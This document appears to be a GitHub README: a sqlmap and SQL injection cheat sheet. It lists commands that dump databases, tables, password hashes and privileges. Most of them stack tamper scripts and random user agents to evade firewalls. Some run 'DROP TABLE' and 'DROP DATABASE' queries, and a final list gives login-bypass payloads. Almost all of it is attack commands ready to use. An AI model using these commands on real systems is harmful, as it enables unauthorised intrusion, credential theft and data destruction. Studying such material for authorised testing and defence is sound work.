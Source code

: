 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D databasename -T tablename
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D databasename -T tablename
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql
8. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent
9. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs
10. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 --tables
11. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent -D tes3 -T coba --dump
12. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP TABLE nama_tabel"
13. python sqlmap.py -r request4.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --sql-query "DROP DATABASE nama_database"
14. python3 sqlmap.py -r request.txt -t 10 --tamper="between,randomcase,space2comment" --random-agent --dbs --level=5 --risk=3 --threads=5 --hex --data="id=2618 AND 2323=2323" --dbms=Oracle

// others
python sqlmap.py -u "http://yoursite.com/news.php?id=1" --dbs --current-user --current-db --is-dba --users --passwords --roles --hostname --privileges
python sqlmap.py -u "https://target.com/?id=1" -t 10 --tamper="between,randomcase,space2comment" --dbs --random-agent --risk=3 --level=5

// set parameter target
sqlmap -r ./target.txt --tamper="between,randomcase,space2comment" --random-agent -p username,password


# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
